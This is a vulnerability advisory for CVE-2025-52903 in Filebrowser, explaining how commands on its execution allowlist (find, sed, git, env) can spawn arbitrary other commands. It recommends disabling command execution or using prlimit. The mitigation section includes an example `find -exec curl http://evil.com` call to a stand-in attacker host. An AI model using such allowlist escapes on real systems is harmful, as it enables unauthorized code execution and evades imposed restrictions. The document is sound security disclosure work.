

# Filebrowser Shell Commands Can Spawn Other Commands #

## Vulnerability Overview ##

The *Command Execution* feature of Filebrowser only allows the execution of
shell command which have been predefined on a user-specific allowlist. Many
tools allow the execution of arbitrary different commands, rendering this
limitation void.

* **Identifier**            : SBA-ADV-20250326-02
* **Type of Vulnerability** : Shell Commands Can Spawn Other Commands
* **Software/Product Name** : [Filebrowser](https://filebrowser.org/)
* **Vendor**                : [Filebrowser](https://github.com/filebrowser)
* **Affected Versions**     : <= 2.34.2
* **Fixed in Version**      : Not yet
* **CVE ID**                : CVE-2025-52903
* **CVSS Vector**           : CVSS:3.1/AV:N/AC:H/PR:H/UI:N/S:C/C:H/I:H/A:H
* **CVSS Base Score**       : 8.0 (High)

## Vendor Description ##

> filebrowser provides a file managing interface within a specified directory
> and it can be used to upload, delete, preview, rename and edit your files.
> It allows the creation of multiple users and each user can have its own
> directory. It can be used as a standalone app.

Source: <https://github.com/filebrowser/filebrowser/blob/v2.32.0/README.md>

## Impact ##

The concrete impact depends on the commands being granted to the attacker,
but the large number of standard commands allowing the execution of
subcommands makes it likely that every user having the `Execute commands`
permissions can exploit this vulnerability. Everyone who can exploit it will
have full code execution rights with the *uid* of the server process.

## Vulnerability Description ##

Many Linux commands allow the execution of arbitrary different commands. For
example, if a user is authorized to run only the `find` command and nothing
else, this restriction can be circumvented by using the `-exec` flag.

Some common commands having the ability to launch external commands and which
are included in the official container image of Filebrowser are listed below.
The website <https://gtfobins.github.io> gives a comprehensive overview:

* <https://gtfobins.github.io/gtfobins/cpio>
* <https://gtfobins.github.io/gtfobins/find>
* <https://gtfobins.github.io/gtfobins/sed>
* <https://gtfobins.github.io/gtfobins/git>
* <https://gtfobins.github.io/gtfobins/env>

As a prerequisite, an attacker needs an account with the `Execute Commands`
permission and some permitted commands.

## Proof of Concept ##

The following screenshot demonstrates, how this can be used to issue a
network call to an external server:



## Recommended Countermeasures ##

Until this issue is fixed, we recommend to completely disable
`Execute commands` for all accounts. Since the command execution is an
inherently dangerous feature that is not used by all deployments, it should
be possible to completely disable it in the application's configuration.

The `prlimit` command can be used to prevent the execution of subcommands:

```bash
$ find . -exec curl http://evil.com {} \;
<HTML>
<HEAD>
[...]

$ prlimit --nproc=0 find . -exec curl http://evil.com {} \;
find: cannot fork: Resource temporarily unavailable
```

It should be prepended to any command executed in the context of the
application. `prlimit` can be used for containerized deployments as well as
for bare-metal ones.

WARNING: Note that this does prevent any unexpected behavior from the
authorized command. For example, the `find` command can also delete files
directly via its `-delete` flag.

As a defense-in-depth measure, Filebrowser should provide an additional
container image based on a *distroless* base image.

## Timeline ##

* `2025-03-26` Identified the vulnerability in version 2.32.0
* `2025-04-11` Contacted the project
* `2025-04-18` Vulnerability disclosed to the project
* `2025-06-25` Uploaded advisories to the project's GitHub repository
* `2025-06-26` CVE ID assigned by GitHub
* `2025-06-26` Advisory published by project as `GHSA-3q2w-42mv-cph4`; the
  issue itself won't be fixed, but command execution has been disabled by
  default in version 2.33.8 as a workaround; GitHub issue #5199 opened to
  track the fix

## References ##

* prlimit: <https://manpages.debian.org/bookworm/util-linux/prlimit.1.en.html>
* "Distroless" Container Images: <https://github.com/GoogleContainerTools/distroless>
* GitHub Security Advisory: <https://github.com/filebrowser/filebrowser/security/advisories/GHSA-3q2w-42mv-cph4>
* GitHub Issue: <https://github.com/filebrowser/filebrowser/issues/5199>

## Credits ##

* Mathias Tausig ([SBA Research](https://www.sba-research.org/))
